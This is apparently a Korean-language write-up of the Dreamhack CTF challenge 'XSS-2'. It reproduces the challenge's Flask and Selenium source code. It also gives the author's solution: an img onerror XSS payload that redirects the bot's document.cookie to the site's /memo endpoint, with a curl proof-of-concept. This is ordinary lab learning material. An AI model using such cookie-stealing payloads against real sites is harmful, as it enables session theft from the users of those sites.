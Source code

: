 ```yaml
---
title: "[CTF] 드림핵 XSS-2"
date: 2025-09-18 18:10:00 +0900
categories: [CTF, Web]
tags: [CTF, XSS]
description: "드림핵 XSS-2"
toc: true
---
```


## 문제 개요
이번 문제는 이전 XSS-1과 구조는 비슷하지만 `/vuln` 엔드포인트가 이제 **템플릿 렌더링(render_template)** 을 사용한다는 점이 다르다. 직접적으로 `<script>`를 반사해도 바로 실행되지 않기 때문에, 다른 방식(태그 속성 기반 실행)을 생각해야 했다.

- `/vuln` : `render_template("vuln.html")` 로 템플릿을 렌더링
- `/memo` : 전달된 `memo` 값을 누적 저장하고 출력
- `/flag` : POST로 받은 `param`을 내부 셀레니움 봇에게 전달 (봇은 이전과 동일하게 `flag` 쿠키를 가지고 있음)

아래는 문제에서 제공된 **원본 소스코드 전체**다.

```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/vuln")
def vuln():
    return render_template("vuln.html")


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)


app.run(host="0.0.0.0", port=8000)
```

---

## 내가 실제로 푼 방법
`/vuln`이 템플릿을 렌더링하니 단순히 `<script>`를 넣어도 실행되지 않는 걸 확인했다. 그래서 `innerHTML` 개념을 생각했고, HTML 태그 속성(onerror 등)을 이용하면 스크립트가 실행될 수 있다는 점에 착안했다.

이미지 태그의 `onerror`를 이용하면 이미지 로드 실패 시 자바스크립트를 실행할 수 있으므로, `param`에 다음과 같은 값을 넘기면 된다.

### 내가 사용한 페이로드
```html
<img src="XSS-2" onerror="location.href='/memo?memo='+document.cookie">
```

### PoC 요청
```bash
curl -X POST -F 'param=<img src="XSS-2" onerror="location.href='/memo?memo='+document.cookie">' http://TARGET:8000/flag
```

설명:
- `/flag`로 POST하면 서버는 내부 `check_xss`를 호출하고, `check_xss`는 `urllib.parse.quote(param)`로 인코딩한 param을 `/vuln` URL에 넣어서 셀레니움 봇을 호출한다.
- 봇은 `flag` 쿠키가 설정된 상태로 `/vuln?param=<payload>` 를 열고, 템플릿 내부에 삽입된 이미지 태그가 로드 실패(`src="XSS-2"`)로 인해 `onerror`가 실행된다.
- `onerror`가 실행되면 `location.href='/memo?memo='+document.cookie` 로 이동하여 `memo`에 FLAG가 저장된다.
- 최종적으로 `/memo` 페이지에서 FLAG 내용을 확인했다.

---

## 재현 흐름
1. 공격자: `POST /flag` with `param=<img src="XSS-2" onerror="location.href='/memo?memo='+document.cookie">`  
2. 서버: `check_xss` → `read_url` → 셀레니움 실행 → `driver.add_cookie({"name":"flag","value":FLAG})` → `driver.get("/vuln?param=<payload>")`  
3. 봇: `/vuln`에서 이미지 로드 실패 → `onerror` 실행 → `/memo?memo=flag=<FLAG>` 호출  
4. 공격자: `/memo`에서 FLAG 확인

---

## 왜 이게 가능했나
템플릿 렌더링 환경에서도 **태그 속성(onerror 등)은 실행될 수 있음**을 이용해, 이미지 로드 실패를 트리거하여 `document.cookie`(FLAG)를 `/memo`로 전송했다.

---

## 마무리
이번 문제(XSS-2)는 템플릿 렌더링으로 인해 직접 스크립트를 반사해도 실행되지 않을 때, 속성 기반 실행(onerror 등)을 떠올려 우회한 전형적 케이스였다. 간단하게 찾고 바로 해결한 문제라 기록해뒀다.
